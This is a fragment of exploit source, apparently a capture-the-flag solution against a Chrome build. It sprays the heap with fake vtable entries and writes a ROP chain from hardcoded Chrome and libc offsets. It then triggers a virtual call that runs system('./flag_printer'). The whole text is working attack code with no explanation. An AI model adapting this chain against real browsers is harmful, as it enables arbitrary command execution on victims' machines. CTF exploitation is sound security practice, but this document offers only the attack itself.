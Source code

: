 ```html
	    
            bss = text+0x6ec71a0-0x200; // For storing ROP chain
            cmd_buf = bss - 0x100; // For storing command string
            print("bss: "+hex(bss));
            
            // Start spraying heap
            for(let idx=0;idx<0x40;idx++){
                for(let i = 0 ; i< 0x600/64 ; i++) {
                    await C[idx].push(bss); // fake vtable entry
                    await C[idx].push(bss); // arbitrary write will write to this address
                    await C[idx].push(0x414141414141);
                    await C[idx].push(0x9abc);
                    await C[idx].push(0x0);
                    await C[idx].push(0x5678);
                    await C[idx].push(0xdead);
                    await C[idx].push(0xbeef);
                }
            }
            // ROP gadget in chrome
            base = text - 0x39b5e60;
            xchg_rax_rsp = base + 0x0000000007fde8e4;
            pop3 = base + 0x00000000068589a5;
            pop_rdi = base + 0x0000000002e9ee1d;
            pop_rax = base + 0x0000000002d815fc;
            ret = pop_rax+1;
            mov_al_rdi_pop = base + 0x527c945;

            // libc
            libc_base = libc - 0x40680;
            system = libc_base + 0x4f440;
            
            cmd = "./flag_printer\x00";

            for(let idx=0;idx<0x100;idx++){
                // scanning string with special-pattern
                let res = await A[idx].getInt(); 
                let v = res.value;
                if( v == 0x5678){
                    // write ROP chain to bss
                    await A[idx].push(pop3);
                    await A[idx].push(0x434343434343);
                    await A[idx].push(xchg_rax_rsp); // vtable will jump to here 
                    await A[idx].push(0x111111111111);
                    // Create ROP chain for copying cmd string to bss ( cmd_buf )
                    for (let cmd_idx = 0; cmd_idx < cmd.length ; cmd_idx++) {
                        await A[idx].push(pop_rdi);
                        await A[idx].push(cmd_buf + cmd_idx);
                        await A[idx].push(pop_rax);
                        await A[idx].push(cmd.charCodeAt(cmd_idx));
                        await A[idx].push(mov_al_rdi_pop);
                        await A[idx].push(0xdeadbeef); // for rbp
                    }
                    // Final ROP. system(cmd_buf)
                    await A[idx].push(pop_rdi);
                    await A[idx].push(cmd_buf);
                    await A[idx].push(system);
                    // trigger virtual function
                    await A[idx].getTotalSize(); // will call [bss+0x10]
                    break;
                }	

            }
          
```